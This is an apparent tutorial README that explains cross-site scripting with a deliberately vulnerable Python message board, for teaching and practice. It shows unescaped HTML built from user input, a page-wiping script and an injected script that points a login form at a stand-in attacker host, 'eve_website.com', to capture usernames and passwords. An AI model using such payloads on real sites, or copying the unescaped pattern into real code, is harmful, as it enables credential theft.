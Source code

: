 # Cross Site Scripting (XSS) #
Cross site scripting is a vulnerability where the attacker can add script (usually js) to your page (and make other users run the script).  

## How Can a User Do it? ##
If a dynamic page show user's input in the page (for example a message board or a social website) sometimes the user can insert an HTML tag.  
For example the next program of a message board:
```python
html = '\n'.join([f'{user}: {message} </br>' for user, message  in data])  # show all message with </br> in between
```
If the message will be `<h2>big hello</h1>`, the html code will render a big `big hello` text.  
What about `<script>alert('hey');</script>`?  this will alert hey in the website.  

What else can the user do?
The attacker can insert a js code that make the website unavialable for other users.  
```js
document.body.innerHTML = '';
```

in other cases the attacker can manipulate the website so the legitimate user will give the attacker some vulnerable information (username and password for example). we will show this cas in the next example:  

### Steal username and password ###

if in the same page we have the next form
```HTML
<form method="post", action="/login" id="login_form">
    username: <input type="text" name="username">
    password: <input type="password" name="password">
    <input type="submit" value="Login">
</form>
```

and also have the dynamic html generated by:
```python
html = '\n'.join([f'{user}: {message} </br>' for user, message  in data])  # show all message with </br> in between
```

if the user enter the next code as a message:
```html
hello
<script>
document.addEventListener('DOMContentLoaded', function() {
    var loginForm = document.getElementById('login_form');
    if (loginForm) {
        loginForm.action = 'http://eve_website.com/get_message'; 
    }
});
</script>
```

Now any user that will try to log in will sent his username and password to eve\_website.com, eve\_website can steal the data and return the user to the original website and the user will not notice it at all. (we will not talk about how eve will do it)

## Play With Yourself ##
you can play with yourself in a vulnerable message board website.  
just run the code `main.py`  
the users are
| username | password |
|----------|----------|
| bob      | bob\_p   |
| eve      | eve\_p   |


